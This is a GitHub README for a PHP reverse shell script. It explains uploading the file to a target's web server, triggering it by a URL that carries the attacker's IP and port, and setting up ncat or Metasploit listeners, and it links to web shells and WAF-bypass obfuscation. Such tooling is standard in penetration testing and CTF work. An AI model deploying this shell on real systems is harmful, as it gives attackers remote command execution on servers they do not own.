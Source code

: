 # PHP Reverse Shell

This is an adaptation of the PHP reverse shell that was created by [ivan-sincek](https://github.com/ivan-sincek/php-reverse-shell/) that he based on the popular PHP reverse shell script by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

It has been updated to allow a user to input the IP address of the machine that is attempting to gain access to the reverse shell and the port that it will listen on as parameters in the URL. So the URL would look like:

```
http://192.168.1.1/php_reverse_shell.php?addr=192.168.1.20&port=9000
```

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php_reverse_shell.php](https://github.com/srichs/php-reverse-shell/blob/master/src/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is used.

[/src/php_reverse_shell_older.php](https://github.com/srichs/php-reverse-shell/blob/master/src/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

Copy [/src/php_reverse_shell.php](https://github.com/srichs/php-reverse-shell/blob/master/src/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser entering the parameters in the URL.

```
http://192.168.1.1/php_reverse_shell.php?addr=192.168.1.20&port=9000
```

---

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

---

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>

